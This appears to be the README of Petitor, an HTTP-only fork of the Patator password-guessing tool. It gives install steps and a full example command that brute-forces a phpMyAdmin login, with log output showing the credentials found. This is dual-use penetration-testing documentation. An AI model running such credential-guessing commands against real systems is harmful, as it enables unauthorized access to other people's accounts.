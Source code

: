 # Petitor

Petitor is a stripped-down fork of Patator by lanjelot, exclusively focused on HTTP fuzzing.
Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.

# Differences from Patator

- Module functionality dropped. http_fuzz only.
- Windows support dropped. Might still work. Not tested.
- Compatible with recent Python versions.

# To-do

- Break down huge monolithic codebase in `petitor.py` into logically organized modules.
- Refactor for readability and PEP-8 compliance.
- Lots of testing.

## Install

```
git clone https://github.com/n0kovo/petitor.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t petitor petitor/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt petitor dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Example

* HTTP : Brute-force phpMyAdmin logon

```
$ petitor url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 petitor    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 petitor    INFO -
11:53:47 petitor    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 petitor    INFO - -----------------------------------------------------------------------------
11:53:48 petitor    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 petitor    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 petitor    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 petitor    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```
